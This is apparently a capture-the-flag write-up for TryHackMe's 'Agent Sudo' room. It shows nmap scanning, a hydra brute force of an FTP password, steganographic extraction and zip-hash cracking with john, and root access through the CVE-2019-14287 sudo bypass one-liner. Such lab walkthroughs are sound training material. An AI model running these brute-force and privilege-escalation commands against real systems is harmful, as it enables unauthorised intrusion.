




# [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

<a href="https://tryhackme.com/room/agentsudoctf"><figure></figure></a>

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

Original Capture The Flag available on [host](https://tryhackme.com/room/agentsudoctf), made by [DesKel](https://tryhackme.com/p/DesKel).

Dificulty: `Easy`

Solved in: `2026/05/28`

# Table of Contents

- [Agent Sudo](#agent-sudo)
- [Table of Contents](#table-of-contents)
- [Writeup](#writeup)
   * [Reconnassaince](#reconnassaince)
   * [Exploration](#exploration)
   * [Privilege Escalation](#privilege-escalation)

# Writeup

## Reconnassaince

Starting with the basics, I added the IP given into the local DNS `/etc/hosts` as `asc.net` for easier accesss in the work, then verified it with a ping:

```bash
$ ping -c 3 asc.net
PING asc.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from asc.net (<MACHINE_IP>): icmp_seq=1 ttl=62 time=144 ms
64 bytes from asc.net (<MACHINE_IP>): icmp_seq=2 ttl=62 time=144 ms
64 bytes from asc.net (<MACHINE_IP>): icmp_seq=3 ttl=62 time=144 ms

--- asc.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 143.872/143.907/143.974/0.047 ms
```

And then followed with a `nmap`:[^nmap]

```bash
$ nmap asc.net      
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-29 00:05 UTC
Nmap scan report for asc.net (<MACHINE_IP>)
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.26 seconds
```

As so one of the questions is already answered.
- Q: How many open ports? A: 3

I'll start with `http` since it's usually the simplest.

<figure></figure>

So, well, I opened burpsuit,[^burp] configured it to make a mini attack on the user-agent. The idea was that, if the name of this agent was "R", then the others must be along the letters of alphabet. As so, I got a few results...

<figure></figure>

Notably, only agents "R" and "C" had different answers. The agent "R" answer was just a warning you "shouldn't impersonate others". It also had the tip about the alphabet (26 letters, counting with "R"):

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

The agent "C" really had a message:

<figure></figure>

- Q: How you redirect yourself to a secret page? A: user-agent
- Q: What is the agent name? A: chris

Apparently agent `chris` had a weak password. Interesting. Apparently, there is an agent "J" too. I followed with exploration, but sadly `ftp` didn't have anonymous connection. So, using `hydra`[^hydra] and rockyou,[^rockyou] I force brute-d Chris' password.

```bash
$ hydra -l chris -P rockyou.txt ftp://asc.net
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-29 00:55:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://asc.net:21/
[21][ftp] host: asc.net   login: chris   password: <PASS_CH>
```

Okay! It really was an easy password.

- Q: FTP password A: <PASS_CH>

## Exploration

```bash
$ ftp asc.net
Connected to asc.net.
220 (vsFTPd 3.0.3)
Name (asc.net:kali): chris
331 Please specify the password.
Password: <PASS_CH>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14643|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

Three files: two photos and one text. For agent J...

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Well, this is clearly steganography.[^steg] My binwalk[^binwalk] was misbehaving but after downloading the files multiple times it finally worked:

```bash
$ binwalk cutie.png     

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

Well, using [unroll](https://www.unroll.ing/) I specified the section to extract (from byte `34562` on forwards) and obtained the zip. But, as said on the earlier message, it was locked. So, using johntheripper[^john] I took out the hash:

```bash
$ zip2john hidden.zip > hash.txt
hidden.zip/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:hidden.zip:hidden.zip
```

And eventually break it:

```bash
$ john --wordlist=/usr/share/john/password.lst hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASS_J0>            (hidden.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2026-05-29 01:51) 33.33g/s 118200p/s 118200c/s 118200C/s 123456..sss
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The pass is <PASS_J0>!

- Q: Zip file password A: <PASS_J0>

Now, with the file broken, it was one more message.

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

Right into [CyberChef](https://gchq.github.io/CyberChef/) it goes. It even identified the hash for me, so I obtained the next password! It is <PASS_J1>!

Using this new password to decypher the other photo (in this case I used [futureboy](https://futureboy.us/stegano/decinput.html)) one more, yet again, message was discovered:

```
Hi <USER_AJ>,

Glad you find this message. Your login password is <PASS_J2>

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Lovely! I can enter in the `ssh`.

- Q: Who is the other agent (in full name)? A: <USER_AJ>
- Q: SSH password A: <PASS_J2>

## Privilege Escalation

```bash
<USER_AJ>@agent-sudo:~$ whoami
<USER_AJ>

<USER_AJ>@agent-sudo:~$ cat user_flag.txt 
<FLAG_USER>
```

Well, user flag, all right. Let's move on...

```bash
<USER_AJ>@agent-sudo:~$ ls
alien_autospy.jpg  h.jpg  user_flag.txt
```

<figure></figure>

Oh, it's that hoax. From eighty million years ago hahaha.
- Q: What is the incident of the photo called? A: Roswell alien autopsy

Oh well.

```bash
<USER_AJ>@agent-sudo:~$ sudo -l
[sudo] password for <USER_AJ>: <PASS_J2> 
Matching Defaults entries for <USER_AJ> on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User <USER_AJ> may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Only the `root` group can use `/bin/bash` as, well, `root`. Using `CVE-2019-14287`, it becomes trivially easy to escalate privileges.

```bash
<USER_AJ>@agent-sudo:~$ sudo -u\#$((0xffffffff)) bash
root@agent-sudo:~# whoami
root
```

- Q: CVE number for the escalation A: CVE-2019-14287

That means only the root flag remains!

```bash
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
<FLAG_ROOT>

By,
<AGENT_R> a.k.a Agent R
```

- Q: (Bonus) Who is Agent R? A: <AGENT_R>


[^nmap]: https://github.com/nmap/nmap
[^burp]: https://portswigger.net/burp
[^john]: https://github.com/openwall/john
[^rockyou]: https://weakpass.com/wordlists/rockyou.txt
[^hydra]: https://github.com/vanhauser-thc/thc-hydra
[^steg]: https://en.wikipedia.org/wiki/Steganography
[^binwalk]: https://github.com/ReFirmLabs/binwalk